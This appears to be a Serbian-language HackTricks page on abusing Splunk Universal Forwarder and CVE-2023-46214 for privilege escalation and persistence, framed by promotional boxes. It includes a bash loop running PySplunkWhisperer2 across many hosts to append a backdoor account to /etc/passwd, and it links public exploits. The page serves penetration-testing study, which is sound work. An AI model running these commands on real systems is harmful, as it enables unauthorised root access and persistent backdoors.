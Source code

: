 # Splunk LPE and Persistence

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

Ako **enumerišete** mašinu **internim** ili **eksternim** putem i pronađete da je **Splunk pokrenut** (port 8090), ako srećom znate **validne akreditive**, možete **zloupotrebiti Splunk servis** da biste **izvršili shell** kao korisnik koji pokreće Splunk. Ako je root pokrenut, možete eskalirati privilegije na root.

Takođe, ako već imate root privilegije i Splunk servis ne sluša samo na localhost-u, možete **ukrasti** fajl sa **lozinkama** iz Splunk servisa i **probijati** lozinke, ili **dodati nove** akreditive. I održavati postojanost na hostu.

Na prvoj slici ispod možete videti kako izgleda Splunkd web stranica.

## Sažetak eksploatacije Splunk Universal Forwarder Agent-a

Za dalje detalje pogledajte post [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/). Ovo je samo sažetak:

**Pregled eksploatacije:** Eksploatacija koja cilja Splunk Universal Forwarder Agent (UF) omogućava napadačima sa lozinkom agenta da izvrše proizvoljni kod na sistemima koji pokreću agenta, potencijalno kompromitujući celu mrežu.

**Ključne tačke:**

* UF agent ne validira dolazne konekcije ili autentičnost koda, što ga čini ranjivim na izvršavanje neovlašćenog koda.
* Uobičajeni načini dobijanja lozinki uključuju pronalaženje istih u mrežnim direktorijumima, deljenim fajlovima ili internim dokumentima.
* Uspela eksploatacija može dovesti do pristupa na nivou SYSTEM-a ili root-a na kompromitovanim hostovima, eksfiltracije podataka i daljnje infiltracije u mrežu.

**Izvršavanje eksploatacije:**

1. Napadač dobija lozinku UF agenta.
2. Koristi Splunk API za slanje komandi ili skripti agentima.
3. Moguće akcije uključuju ekstrakciju fajlova, manipulaciju korisničkim nalozima i kompromitaciju sistema.

**Uticaj:**

* Potpuna kompromitacija mreže sa privilegijama na nivou SYSTEM-a/root-a na svakom hostu.
* Mogućnost onemogućavanja logovanja radi izbegavanja detekcije.
* Instalacija zadnjih vrata ili ransomware-a.

**Primer komande za eksploataciju:**

```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```

**Upotrebljivi javni eksploiti:**

* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487

## Zloupotreba Splunk upita

**Za dodatne detalje pogledajte post** [**https://blog.hrncirik.net/cve-2023-46214-analysis**](https://blog.hrncirik.net/cve-2023-46214-analysis)

**CVE-2023-46214** je omogućio otpremanje proizvoljnog skripta u **`$SPLUNK_HOME/bin/scripts`** i zatim je objašnjeno da se korišćenjem pretrage **`|runshellscript script_name.sh`** mogu **izvršiti** skripte koje su tamo smeštene.

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
